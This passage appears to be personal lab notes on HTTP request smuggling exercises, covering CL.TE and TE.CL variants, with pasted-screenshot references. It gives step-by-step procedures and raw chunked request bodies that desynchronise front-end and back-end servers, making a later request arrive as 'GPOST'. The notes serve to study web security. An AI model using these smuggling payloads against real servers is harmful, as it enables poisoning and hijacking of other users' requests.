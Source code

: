 - Use the below request body below to get Communication timed out [Which means Front end uses CL and Back end uses TE Chunked]
```
\r\n
3\r\n
abc\r\n
X\r\n

```
![[Pasted image 20240516102410.png]]

- Take the same normal request again , and change to POST method , and change the protocol to HTTP/1 and use the request body below[we get 200 OK]
```
\r\n
foo=bar

```
![[Pasted image 20240516101244.png]]

- Now use the below request body to poison the later on request. After this send the normal request
```
\r\n
0\r\n
\r\n
G
```
![[Pasted image 20240516102717.png]]

- Atlast `G` is appended to the  POST request of Normal request from the attack request[`GPOST`]
![[Pasted image 20240516102906.png]]


# HTTP request smuggling, basic TE.CL vulnerability
- Take a 'GET / HTTP/2' request and change the protocol to  HTTP/1 and uncheck Update Content-Length and Change to POST methods and remove unwanted request headers.
![[Pasted image 20240516105724.png]]


- Content length to 6 and use the below body to the request[will get Invalid request ]
```
\r\n
3\r\n
abc\r\n
X\r\n

```
![[Pasted image 20240516110226.png]]

- Use the below body [will get Connection timed out and name it as Attack req]
```
\r\n
0\r\n
\r\n
X
```
![[Pasted image 20240516111057.png]]
